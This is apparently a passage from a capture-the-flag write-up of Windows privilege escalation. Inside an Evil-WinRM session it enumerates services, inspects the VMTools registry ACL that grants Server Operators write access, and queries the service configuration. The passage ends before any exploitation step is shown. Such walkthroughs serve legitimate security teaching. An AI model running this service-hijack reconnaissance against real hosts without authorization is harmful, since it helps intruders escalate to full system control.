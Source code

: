 ```bash
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Checking these services one by one we can see if can modify any of theme

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-Acl -Path hklm:\System\CUrrentControlSet\services\VMTOols | format-list

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CUrrentControlSet\services\VMTOols
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\Authenticated Users Allow  ReadKey
         NT AUTHORITY\Authenticated Users Allow  -2147483648
         BUILTIN\Server Operators Allow  SetValue, CreateSubKey, Delete, ReadKey
         BUILTIN\Server Operators Allow  -1073676288
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  -2147483648
Audit  :
Sddl   : O:BAG:SYD:AI(A;ID;KR;;;AU)(A;CIIOID;GR;;;AU)(A;ID;CCDCLCSWRPSDRC;;;SO)(A;CIIOID;SDGWGR;;;SO)(A;ID;KA;;;BA)(A;CIIOID;GA;;;BA)(A;ID;KA;;;SY)(A;CIIOID;GA;;;SY)(A;CIIOID;GA;;;CO)(A;ID;KR;;;AC)(A;CIIOID;GR;;;AC)(A;ID;KR;;;S-1-15-3-1024-106536593
         6-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)(A;CIIOID;GR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```

Now we need to know if the service run as root or not.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cmd.exe /c "sc qc vmtools"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vmtools
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VMware Tools
        DEPENDENCIES       :
```